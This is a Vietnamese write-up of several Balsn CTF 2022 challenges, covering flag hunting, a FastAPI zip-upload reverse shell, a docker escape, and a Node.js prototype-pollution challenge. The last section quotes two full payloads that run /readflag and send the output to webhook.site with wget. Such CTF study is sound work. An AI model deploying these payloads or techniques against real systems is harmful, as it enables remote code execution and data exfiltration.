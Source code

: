 # welcome (misc)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427236124/mmmW5ruhU.png)

Access tới url ta thấy một terminal, nhập `showflag`: 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427361093/2acIO6X1R.png)

Một vài dòng cat được hiển thị ra, tiếp theo mình check `history`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427395633/GhfJRaU9b.png)

Cuối cùng chỉ cần cat từng file và nối lại với nhau ta được flag

> BALSN{WELCOME_2_BALSNCTF!}

---

# my first app (web)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427194147/H0mLMPc6k.png)

Bài này mình làm theo kiểu hơi chày cối 1 tí 😚, view source 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427038824/ePBXWdqJA.png)

và flag nằm ở `/_next/static/chunks/pages/index-1491e2aa877a3c04.js`


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427080949/TYPPym1fC.png)

---

# Health Check 1 (web)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427182027/q2wGoqpjH.png)

Từ mô tả có thể đoán được server sử dụng framework FastAPI, thử access tới `/docs`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427620743/rCIAvdchJ.png)

Ở api `/new`, server sẽ chạy file `run` trong zipfile mà ta uploaded lên

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427680300/4WQ0d5uXN.png)

sau khi reverse shell và check permission thì có vẻ như file `flag2` và `flag1.py` ta không có quyền đọc (user hiện tại là nobody)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662428331751/B4ZPBshZf.png)

từ `background.py` có thể thấy `flag1.py` được import vào, vì vậy nó sẽ được compiled và file .pyc của nó nằm trong folder `__pycache__`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662428479603/gg2jqdyw8.png)

cat file .pyc này ra là có flag1

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662429909655/NlkkQm4Tb.png)

> BALSN{y37_4n0th3r_pYC4ch3_cHa1leN93???}

---

# Health Check 2 (web)

Source vẫn như cũ nhưng ta cần đọc được flag2, phần này hơi thiêng về "Privilege escalation" 1 tí mà cụ thể là docker escape

Có thể thấy ở `background.py`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662436865615/Do9fa8HR-.png)

Nếu tồn tại file `docker-entry` trong zip file gửi lên thì sẽ run một container với option -v và user là `user`, idea sẽ như video [này](https://www.youtube.com/watch?v=0oTuH_xY3mw)

Trước tiên rev shell vô container (bỏ payload rev shell vào file docker-entry) sau đó

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662437724629/07MRlQiRQ.png)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662437736350/yEDH_f3MO.png)

> BALSN{d0cK3r_baD_8ad_ro07_B4d_b@d}

---

# 2linenodejs (web)

Maple's payload:

```
?{"__proto__":{"command":"sh","contextExtensions":[{"process":{"argv":["","","-c","wget\thttp://webhook.site/81f6d1c1-a744-4d78-966a-136742f02e34?flag=$(/readflag)"]}}],"path":"/usr/local/lib/node_modules/npm/node_modules/opener/bin","data":{"aaa":"bbb","exports":"./opener-bin.js","name":"./usage"}},"toString":{"arguments":0}} x
```

Huli's payload:

```
?{"__proto__":{"data":{"exports":{".":"./preinstall.js"},"name":"./usage"},"path":"/opt/yarn-v1.22.19","shell":"node","npm_config_global":1,"env":{"NODE_DEBUG":"console.log(require('child_process').execSync('wget${IFS}https://webhook.site/a0beafdc-df63-4804-85a8-7945ad473bf5?q=$(/readflag)').toString());process.exit()//","NODE_OPTIONS":"--require=/proc/self/environ"},"__proto__":{}}}
```

Writeup: <https://ctf.zeyu2001.com/2022/balsnctf-2022/2linenodejs>